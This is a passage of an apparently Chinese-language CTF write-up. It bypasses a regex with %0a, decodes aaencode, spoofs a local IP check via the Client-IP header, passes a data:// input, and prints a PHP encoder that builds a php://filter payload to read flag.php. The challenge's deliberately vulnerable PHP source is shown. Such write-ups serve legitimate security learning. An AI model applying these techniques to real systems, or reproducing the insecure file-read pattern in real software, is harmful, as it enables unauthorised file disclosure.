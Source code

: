 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209131748083.png)

还需要绕过正则, 加一个 `%0a` 就可以了, 因为这里默认是单行匹配, 不会匹配到换行符

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209131749532.png)

访问 secrettw.php

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209131749312.png)

aaencode, 在 F12 控制台中输入

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209131749938.png)

post 一下

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209131750817.png)

```php
<?php 
error_reporting(0); 
include 'takeip.php';
ini_set('open_basedir','.'); 
include 'flag.php';

if(isset($_POST['Merak'])){ 
    highlight_file(__FILE__); 
    die(); 
} 


function change($v){ 
    $v = base64_decode($v); 
    $re = ''; 
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) + $i*2 ); 
    } 
    return $re; 
}
echo 'Local access only!'."<br/>";
$ip = getIp();
if($ip!='127.0.0.1')
echo "Sorry,you don't have permission!  Your ip is :".$ip;
if($ip === '127.0.0.1' && file_get_contents($_GET['2333']) === 'todat is a happy day' ){
echo "Your REQUEST is:".change($_GET['file']);
echo file_get_contents(change($_GET['file'])); }
?>
```

检测 ip 的原理经测试发现利用的是 `Client-IP`, 2333 的传参可以用 data 协议

然后 change 这里很容易就可以写出对应的逆函数

```php
<?php
function encode($v){
  $re = '';
  for ($i=0;$i<strlen($v);$i++){
    $re .= chr(ord($v[$i]) - $i*2);
  }
  return base64_encode($re);
}

echo encode('php://filter/read=convert.base64-encode/resource=flag.php');
?>
```
